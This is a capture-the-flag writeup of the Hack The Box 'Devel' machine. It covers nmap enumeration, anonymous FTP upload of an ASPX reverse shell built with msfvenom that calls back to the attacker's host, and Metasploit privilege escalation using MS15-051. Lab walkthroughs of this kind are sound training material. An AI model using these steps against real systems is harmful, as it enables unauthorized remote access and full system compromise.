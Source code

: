 Title: HTB Devel box writeup
Tags: oscp, htb
Summary: Another straightforward windows box
Date: 2020-09-28 15:00
Status: published

# Enumeration
As usual full nmap sS scan:
<pre>
    Nmap 7.80 scan initiated Mon Sep 28 10:10:15 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.5
    Nmap scan report for devel.htb (10.10.10.5)
    Host is up (0.055s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE
    21/tcp open  ftp
    80/tcp open  http
    Nmap done at Mon Sep 28 10:12:24 2020 -- 1 IP address (1 host up) scanned in 128.64 seconds
</pre>
Following by the scripted scan:
<pre>
    Nmap 7.80 scan initiated Mon Sep 28 10:19:06 2020 as: nmap -sC -A -T4 -p21,80 -oA enum/nmap-sCAT4-open 10.10.10.5
    Nmap scan report for devel.htb (10.10.10.5)
    Host is up (0.053s latency).
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  02:06AM       <DIR>          aspnet_client
    | 03-17-17  05:37PM                  689 iisstart.htm
    |_03-17-17  05:37PM               184946 welcome.png
    | ftp-syst: 
    |_  SYST: Windows_NT
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose|phone|specialized
    Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
    OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
    Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    TRACEROUTE (using port 21/tcp)
    HOP RTT      ADDRESS
    1   53.90 ms 10.10.14.1
    2   53.99 ms devel.htb (10.10.10.5)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Mon Sep 28 10:19:19 2020 -- 1 IP address (1 host up) scanned in 13.79 seconds
</pre>
And that's all that necessary to get foothold.

# Exploitation
FTP allows anonymous access and to upload arbitrary files in there:

![ftp uploading](/cstatic/htb-devel/upload-shell.png)

Moreover, FTP Root could be accessed from the web server, so to acquire shell is as easy
as upload crafted aspx page and navigate to it. Generated it using
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=53 -f aspx -o sh.asp`:

![unpriv iis web user shell](/cstatic/htb-devel/unpriv-shell.png)

# Privilege escalation
PE was done with MSF and exploit suggester. `windows/local/ms15_051_client_copy_image`
worked flawlessly providing us with SYSTEM shell:

![root shell](/cstatic/htb-devel/root-shell.png)

# Additional
Found some writeups with PE w/o MSF, worth to read:

 - https://0xdf.gitlab.io/2019/03/05/htb-devel.html#privesc-web--system
 - https://esseum.com/hack-the-box-devel-writeup/
 - https://agent-tiro.com/htb/devel
 - https://cyruslab.net/2020/04/30/hacktheboxdevel/
 - https://nullarmor.github.io/posts/devel
